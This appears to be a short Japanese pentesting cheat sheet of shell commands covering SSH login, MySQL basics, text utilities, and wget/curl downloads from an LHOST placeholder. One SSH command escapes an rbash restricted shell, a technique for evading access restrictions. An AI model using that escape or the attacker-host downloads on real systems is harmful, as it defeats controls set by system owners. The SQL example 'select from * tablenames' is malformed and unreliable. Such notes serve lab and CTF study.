 ```bash
ssh test@192.168.0.1
# パスワードを入力
```

#### ログイン時にrbash（制限付きシェル）を回避する方法

```bash
ssh seppuku@192.168.0.115 -t "bash --noprofile"
```

#### サーバの暗号アルゴリズムに合わせる

```bash
ssh -c <cipher_algorithm> username@hostname
```

## 表示

### 大文字小文字変換

```bash
echo "Hello WoRLd" | tr '[:upper:][:lower:]' '[:lower:][:upper:]'
```

### treeコマンド

```bash
tree -l -L 3 /usr/share/wordlists
```

## web関連

### wget

#### ファイルダウンロード

```bash
wget http://lhost/file
```

### curl

#### ファイルダウンロード

```bash
curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

## データベース操作

### mysql

```bash
mysql -h localhost -u username -p
show databases;
use databasename;
show tables;
select from * tablenames;
```
